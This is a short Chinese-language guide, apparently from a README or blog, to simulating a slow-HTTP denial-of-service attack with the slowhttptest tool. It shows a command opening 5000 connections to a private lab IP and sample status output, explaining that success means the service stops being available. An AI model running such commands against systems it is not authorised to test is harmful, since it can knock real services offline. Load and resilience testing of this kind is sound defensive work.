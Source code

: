 
## 测试工具

**模拟测试工具：slowhttptest**

> https://github.com/shekyan/slowhttptest

**安装：**

> https://github.com/shekyan/slowhttptest/wiki

**使用：**

> slowhttptest -c 5000 -u [hostname/ip]

- -c 表示发起5000个连接，由于是慢速DDOS且是基于http协议的，这里发起的连接请求是确确实实会与服务器进行三次握手并维持与服务器的连接的。

- -u 注意这里的hostname或者ip都需要在前面加上协议 http://。

**模拟测试：**


```
./slowhttptest -c 5000 -u https://192.168.1.3
```


```
slow HTTP test status on 50th second:

initializing:        0
pending:             8
connected:           1757
error:               0
closed:              3
service available:   YES
```

攻击如果成功，service available会变成no。